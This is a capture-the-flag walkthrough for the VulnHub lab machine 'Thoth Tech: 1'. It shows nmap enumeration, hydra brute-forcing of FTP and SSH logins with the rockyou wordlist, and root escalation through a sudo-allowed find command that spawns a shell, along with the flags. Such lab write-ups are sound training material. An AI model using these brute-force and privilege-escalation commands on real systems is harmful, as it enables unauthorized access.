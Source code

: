 # Thoth Tech: 1

link: https://www.vulnhub.com/entry/thoth-tech-1,734/

## Enum
IP: 192.168.1.169

Nmap 

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Ftp

Found a note.txt on the server

```
Dear pwnlab,

My name is jake. Your password is very weak and easily crackable, I think change your password.
```

Ftp Brute

```
hydra -l pwnlab -P /usr/share/wordlists/rockyou.txt ftp://10.150.150.11
```

SSH Brute

```
hydra -l pwnlab -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.169

[22][ssh] host: 192.168.1.169   login: pwnlab   password: babygirl1

```

SSH Login

```
ssh pwnlab@192.168.1.169
babygirl1
```

## User

```
cat user.txt
5ec2a44a73e7b259c6b0abc174291359
```

## Root 

```
sudo -l
Matching Defaults entries for pwnlab on thothtech:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwnlab may run the following commands on thothtech:
    (root) NOPASSWD: /usr/bin/find
```

exploit to root

```
sudo find . -exec /bin/sh \; -quit

pwnlab@thothtech:~$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
#
...
# cat root.txt
Root flag: d51546d5bcf8e3856c7bff5d201f0df6

good job :)

```

